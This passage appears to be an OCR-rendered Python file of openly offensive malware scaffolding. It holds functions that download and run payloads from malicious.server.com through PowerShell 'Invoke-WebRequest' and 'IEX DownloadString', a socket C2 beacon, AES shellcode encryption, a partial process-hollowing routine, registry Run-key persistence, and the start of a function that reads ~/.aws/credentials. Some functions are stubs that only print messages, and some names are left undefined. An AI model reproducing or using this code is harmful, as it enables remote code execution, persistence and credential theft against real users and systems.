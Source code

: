 ```Python
    print("Bypassing AMSI and unhooking API...")

# Fileless Execution via WMI & LOLBins
def wmi_execution():
    # Example using WMI (Windows Management Instrumentation) for fileless execution
    wmi_command = 'powershell -exec bypass -command "Invoke-WebRequest -Uri http://malicious.server.com/payload.exe -OutFile C:\\payload.exe"'
    subprocess.Popen(wmi_command, shell=True)
    print("Executing payload filelessly via WMI...")

def lolbin_execution():
    # Using LOLBins (Living Off The Land Binaries) for fileless execution
    lolbin_command = 'powershell -exec bypass -command "IEX (New-Object Net.WebClient).DownloadString(\'http://malicious.server.com/payload.ps1\')"'
    subprocess.Popen(lolbin_command, shell=True)
    print("Executing filelessly using LOLBins...")

# In-memory C2 Beacon
def in_memory_c2(server):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, 443))
    s.send(b"Hello, C2 Server")
    response = s.recv(1024)
    print(f"In-memory C2 Beacon Response: {response}")
    s.close()

# Stage 1: Polymorphic Shellcode Loader (already defined)
def encrypt_shellcode(shellcode):
    cipher = AES.new(KEY, AES.MODE_CBC, IV)
    encrypted = cipher.encrypt(pad(shellcode, AES.block_size))
    return base64.b64encode(encrypted)

# Stage 2: Process Hollowing (already defined)
def process_hollowing(target_process):
    import subprocess
    import psutil
    
    si = subprocess.STARTUPINFO()
    si.dwFlags |= subprocess.STARTF_USESHOWWINDOW
    pi = subprocess.Popen(target_process, startupinfo=si, creationflags=subprocess.CREATE_SUSPENDED)
    
    process = psutil.Process(pi.pid)
    print(f"Process Hollowing into PID: {pi.pid}")
    return pi.pid

# Stage 3: OS Persistence Techniques (already defined)
def setup_persistence():
    import winreg
    key = winreg.HKEY_CURRENT_USER
    subkey = r"Software\Microsoft\Windows\CurrentVersion\Run"
    value_name = "MyMalware"
    exe_path = "C:\\Users\\Public\\malicious.exe"
    
    with winreg.OpenKey(key, subkey, 0, winreg.KEY_SET_VALUE) as reg_key:
        winreg.SetValueEx(reg_key, value_name, 0, winreg.REG_SZ, exe_path)
    
    print("Persistence established via registry key")

# Stage 4: Cloud Attacks (AWS, Azure, GCP Persistence & Evasion) (already defined)
def aws_credential_theft():
    aws_creds_path = os.path.expanduser("~/.aws/credentials")
    if os.path.exists(aws_creds_path):
```